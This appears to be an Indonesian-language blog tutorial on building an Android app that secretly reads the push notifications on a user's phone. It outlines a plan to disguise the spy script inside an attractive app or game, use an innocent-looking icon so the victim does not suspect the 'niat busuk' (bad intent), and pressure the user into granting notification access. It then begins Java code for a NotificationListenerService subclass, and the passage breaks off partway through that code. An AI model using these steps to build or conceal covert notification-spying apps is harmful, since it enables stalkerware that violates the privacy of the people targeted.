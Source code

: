 <figure aria-describedby="caption-attachment-3756" class="wp-caption aligncenter" id="attachment_3756" style="width: 600px">![](http://hangga.github.io/blog/wp-content/uploads/2018/01/push-notification-1-contoh.png)<figcaption class="wp-caption-text" id="caption-attachment-3756">Contoh Push Notification dari sisi antar muka pengguna pada aplikasi mobile.</figcaption></figure>## Skenario penyadapan

Sebelum melakukan penyadapan, eh pengintipan ding, persiapkanlah rencana dengan matang. Luruskan niat semata-mata untuk ber*experimen* dan menambah ilmu. he3x.. Bukan untuk menebar fitnah dan kejahatan. Pikirkan juga dosanya he3x.

1. **Membuat aplikasi penyadap** atau apalah istilahnya, yang penting berupa file .apk, dapat berupa aplikasi menarik atau game namun di dalamnya terdapat *script* penyadap. Ha3x. Silahkan gunakan ide kreatif anda masing-masing.
2. **Gunakan *icon* yang menarik dan tidak mencurigakan**. Ini penting, agar user tidak curiga akan niat busuk Anda. Ha3x..
3. **Paksa user untuk mengaktifkan** ***notification access**.* Ini hukumnya wajib. Pokoknya bagaimana caranya, user harus mengaktifkan *permission* ini.![](http://hangga.github.io/blog/wp-content/uploads/2018/01/settings-700-700x949.png)

## *Script* penyadap  


Android SDK menyediakan kelas yang sangat keren yaitu ***NotificationListenerService.java***, sebuah *service* yang menangani notifikasi. Anda bisa meng*import*nya seperti cara biasa.

```
<pre class="lang:java decode:1 inline:1 ">import android.service.notification.NotificationListenerService;
```

Kemudian disini sy membuat sebuah kelas bernama ***NotificationService*** turunan dari ***NotificationListenerService***.

```
<pre class="lang:default decode:true">import android.content.Context;
import android.content.Intent;
import android.os.Bundle;
import android.os.IBinder;
import android.service.notification.NotificationListenerService;
import android.service.notification.StatusBarNotification;
import android.support.v4.content.LocalBroadcastManager;
import android.util.Log;

import com.waspy.sayekti.waspy.R;

/**
 * Created by sayekti on 10/13/17.
 */

public class NotificationService extends NotificationListenerService {

    private Context context;
    private static boolean isNotificationAccessEnabled = false;

    public static boolean isNotificationAccessEnabled() {
        return isNotificationAccessEnabled;
    }

    @Override
    public void onCreate() {
        super.onCreate();
        context = getApplicationContext();
    }

    @Override
    public IBinder onBind(Intent intent) {
        IBinder mIBinder = super.onBind(intent);
```